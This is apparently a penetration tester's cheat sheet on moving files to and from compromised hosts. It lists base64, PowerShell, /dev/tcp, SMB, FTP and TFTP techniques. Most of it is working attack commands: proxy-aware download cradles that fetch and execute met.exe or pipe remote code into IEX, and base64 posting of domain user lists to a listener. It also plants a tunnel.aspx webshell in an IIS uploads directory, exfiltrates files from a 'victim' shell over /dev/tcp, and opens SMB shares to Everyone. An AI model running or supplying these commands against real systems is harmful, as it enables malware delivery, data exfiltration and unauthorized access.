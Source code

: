 # File Transfer

* [https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
* [https://gist.github.com/HarmJ0y/bb48307ffa663256e239](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)
* [https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle](https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle)
* [https://snovvcrash.github.io/2018/10/11/simple-http-servers.html](https://snovvcrash.github.io/2018/10/11/simple-http-servers.html)




## Base64

String to base64 and POST with PowerShell:

```
PS > $str = cmd /c net user /domain
PS > $base64str = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
PS > IWR -Uri http://127.0.0.1/msg -Method POST -Body $base64str
```

File to base64 with `certutil`:

```
Cmd > certutil -encode <FILE_TO_ENCODE> C:\Windows\Temp\encoded.b64
Cmd > type C:\Windows\Temp\encoded.b64
```

Base64 file transfer from Linux to Windows:

```
$ base64 -w0 tunnel.aspx; echo
...BASE64_CONTENTS...
PS > Add-Content -Encoding UTF8 tunnel.b64 "<BASE64_CONTENTS>" -NoNewLine
PS > $data = Get-Content -Raw tunnel.b64
PS > [IO.File]::WriteAllBytes("C:\inetpub\wwwroot\uploads\tunnel.aspx", [Convert]::FromBase64String($data))
```




## Hex

Compress a binary file and transfer it to Windows by copy-pasting commands into the console:

```
$ upx -9 file.exe
$ exe2hex -x file.exe -p file.cmd
$ cat file.cmd | xclip -i -sel c
```




## PowerShell

PowerShell upload file:

```
PS > (New-Object Net.WebClient).UploadFile("http://10.10.13.37/file.txt", "file.txt")
```

PowerShell auto detect proxy, download file from remote HTTP server and run it:

```powershell
$proxyAddr=(Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings").ProxyServer;$proxy=New-Object System.Net.WebProxy;$proxy.Address=$proxyAddr;$proxy.UseDefaultCredentials=$true;$client=New-Object System.Net.WebClient;$client.Proxy=$proxy;$client.DownloadFile("http://10.10.13.37/met.exe","$env:userprofile\music\met.exe");$exec=New-Object -com shell.application;$exec.shellexecute("$env:userprofile\music\met.exe")
```

PowerShell manually set proxy and upload file to remote HTTP server:

```powershell
$client=New-Object System.Net.WebClient;$proxy=New-Object System.Net.WebProxy("http://proxy.megacorp.local:3128",$true);$creds=New-Object Net.NetworkCredential("snovvcrash","Passw0rd!","megacorp.local");$creds=$creds.GetCredential("http://proxy.megacorp.local","3128","KERBEROS");$proxy.Credentials=$creds;$client.Proxy=$proxy;$client.UploadFile("http://10.10.13.37/results.txt","results.txt")
```

Another proxy-aware download cradle:

```powershell
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem "HKU:\" -ErrorAction SilentlyContinue
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start=$key.Name.Substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[System.Net.WebRequest]::DefaultWebProxy = New-Object System.Net.WebProxy("http://$proxyAddr")
$wc = New-Object System.Net.WebClient
$wc.DownloadString("http://10.10.13.37/test.txt") | IEX
Remove-PSDrive -Name HKU -Force
```




## /dev/tcp

```
 # Sender:
root@kali:~$ tar -zcvf folder.tar.gz folder
root@kali:~$ nc -w3 -lvnp 1234 < folder.tar.gz
 # Recipient:
www-data@victim:~$ bash -c 'cat < /dev/tcp/127.0.0.1/1234 > .folder.tar.gz'
www-data@victim:~$ tar -zxvf .folder.tar.gz

 # Recipient:
root@kali:~$ nc -w3 -lvnp 1234 > file.txt
 # Sender:
www-data@victim:~$ bash -c 'cat < file.txt > /dev/tcp/127.0.0.1/1234'
```




## SMB



### smbserver.py

Start SMB server:

```
$ sudo smbserver.py -smb2support share `pwd`
```

Mount SMB in Windows with `net use`:

```
$ sudo smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
Cmd > net use Z: \\10.10.13.37\share
Cmd > net use Z: \\10.10.13.37\share /u:snovvcrash 'Passw0rd!'
```

Mount SMB in Windows with `New-PSDrive`:

```
$ sudo smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
PS > $pass = 'Passw0rd!' | ConvertTo-SecureString -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $pass)
Or
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > New-PSDrive -Name Z -Root \\10.10.13.37\share -Credential $cred -PSProvider FileSystem
PS > cd Z:
```



### net share

```
Cmd > net share pentest=c:\smb_pentest /GRANT:"Anonymous Logon,FULL" /GRANT:"Everyone,FULL"
Or
Cmd > net share pentest=c:\smb_pentest /GRANT:"Administrator,FULL"
Cmd > net share pentest /delete
```




## FTP

```
$ python -m pip install pyftpdlib
$ python -m pyftpdlib -Dwp 2121
Cmd > cd C:\Windows\System32\spool\drivers\color
Cmd > echo 'open 127.0.0.1 2121' > ftp.txt
Cmd > echo 'user anonymous' >> ftp.txt
Cmd > echo 'anonymous' >> ftp.txt
Cmd > echo 'binary' >> ftp.txt
Cmd > echo 'put file.bin' >> ftp.txt
Cmd > echo 'bye' >> ftp.txt
Cmd > ftp -v -n -s:ftp.txt
```




## TFTP

Send `file.exe` from Windows to Linux (TFTP client must be [enabled](https://teckangaroo.com/enable-tftp-windows-10/) on Windows):

```
$ sudo atftpd --daemon --bind 10.10.13.37 --port 69 ./tftp
Cmd > tftp -i 10.10.13.37 put file.exe
$ sudo pkill atftpd
```
